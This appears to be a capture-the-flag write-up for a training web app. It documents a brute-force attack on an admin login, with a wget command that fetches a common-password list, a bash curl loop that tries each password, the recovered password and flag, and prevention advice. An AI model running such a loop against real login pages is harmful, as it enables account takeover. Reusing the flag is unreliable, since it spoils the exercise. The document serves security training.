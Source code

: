 # Brute Force Authentication Vulnerability

## Overview
The login form at `/?page=signin` is vulnerable to brute force attacks, allowing attackers to guess admin credentials with no rate limiting.

---

## How It Works

1. **Finding the Target:**  
   In a previous breach, we gained access to the members page, which revealed that "admin" is a valid username.
2. **Attack:**  
   Login requests are sent like this:
   ```
   /?page=signin&username=admin&password=<PASSWORD>&Login=Login
   ```
   A failed login shows "WrongAnswer.gif".

---

## Exploitation Methods

### ** Bash Script with Password List**

- Download a password list from GitHub:
  ```bash
  wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt -O pwdlist.txt
  ```
- Use this brute force loop:
  ```bash
  for pwd in $(cat pwdlist.txt); do 
  resp=$(curl -s "http://{IP_ADDRESS}/?page=signin&username=admin&password=$pwd&Login=Login")
  if [[ "$resp" == *"The flag is :"* ]]; then 
    flag=$(echo "$resp" | grep -oP 'The flag is : \K[a-f0-9]{64}')
    echo "Success! Username: admin | Password: $pwd | Flag: $flag"
    break
  fi
done
  ```
- Password `shadow` is found to work.


---

## Result

- **Username:** admin  
- **Password:** shadow  
- **Flag:** `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`

---

## Prevention

1. **Account Lockout:** Temporarily disable accounts after multiple failures.
2. **Strong Password Policy:** Require complex, non-common passwords.
3. **MFA:** Add Multi-Factor Authentication for all users.
4. **CAPTCHA:** Use CAPTCHA after failed logins.
5. **Rate Limit:** Restrict login attempts per IP.
6. **Monitoring:** Alert on brute force patterns.

---

## Resources

- Password list source:  
  [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt)
